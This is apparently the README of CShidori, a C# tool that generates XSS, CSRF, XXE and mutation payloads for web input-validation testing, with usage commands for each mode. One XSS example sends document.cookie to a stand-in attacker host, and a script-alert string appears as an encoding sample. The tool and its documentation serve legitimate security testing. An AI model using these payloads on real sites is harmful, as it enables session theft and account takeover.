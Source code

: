 # CShidori

A C# "Thousand Birds" Payloads Generator

## Dev Roadmap

- store badstrings with Entity Framework

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)
Taisen: [Website](https://taisen.fr)

## supported modes/payloads

- Mutation
- XSS
- JSON
- XML
- GET
- CSRF
- XXE
- Encoding
- List Dump

## Usage

### Mutation

```powershell
.\CShidori.exe -m mut -o 5 -p test
```

### XSS / Injections

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe -m json -p ..\testing\test.json
```

### XML

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml
```

### GET

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe -m xxe -o file
.\CShidori.exe -m xxe -o call 
.\CShidori.exe -m xxe -o all 
```
### Encode

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### Dump

```powershell
.\CShidori.exe -m bs
```

## Miscellaneous

### CShidori-Spring.ps1

Security hotspots, endpoints, parameters and wsdl grabber from Spring projects

```powershell
. .\Spring-parser.ps1
Get-SpringArtefact -source .\project\repository -output .
```

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge XSD in WSDL
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
